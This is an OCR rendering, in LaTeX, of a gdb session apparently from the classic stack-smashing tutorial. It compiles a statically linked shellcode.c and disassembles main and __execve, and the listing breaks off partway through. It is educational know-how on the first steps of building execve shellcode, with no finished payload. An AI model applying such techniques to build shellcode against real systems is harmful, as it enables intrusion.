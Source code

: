 \documentclass[10pt]{article}
\begin{document}
\begin{lstlisting}
[aleph1]$ gcc -o shellcode -ggdb -static shellcode.c

[aleph1]$ gdb shellcode

GDB is free software and you are welcome to distribute copies of it

 under certain conditions; type "show copying" to see the conditions.

There is absolutely no warranty for GDB; type "show warranty" for details.

GDB 4.15 (i586-unknown-linux), Copyright 1995 Free Software Foundation, Inc...

(gdb) disassemble main

Dump of assembler code for function main:

0x8000130 :    pushl  %ebp

0x8000131 :    movl   %esp,%ebp

0x8000133 :    subl   $0x8,%esp

0x8000136 :    movl   $0x80027b8,0xfffffff8(%ebp)

0x800013d :    movl   $0x0,0xfffffffc(%ebp)

0x8000144 :    pushl  $0x0

0x8000146 :    leal   0xfffffff8(%ebp),%eax

0x8000149 :    pushl  %eax

0x800014a :    movl   0xfffffff8(%ebp),%eax

0x800014d :    pushl  %eax

0x800014e :    call   0x80002bc <__execve>

0x8000153 :    addl   $0xc,%esp

0x8000156 :    movl   %ebp,%esp

0x8000158 :    popl   %ebp

0x8000159 :    ret

End of assembler dump.(gdb) disassemble __execve

Dump of assembler code for function __execve:

0x80002bc <__execve>:           pushl  %ebp

0x80002bd <__execve+1>:         movl   %esp,%ebp

0x80002bf <__execve+3>:         pushl  %ebx

0x80002c0 <__execve+4>:         movl   $0xb,%eax

0x80002c5 <__execve+9>:         movl   0x8(%ebp),%ebx

0x80002c8 <__execve+12>:        movl   0xc(%ebp),%ecx


\end{lstlisting}
\end{document}
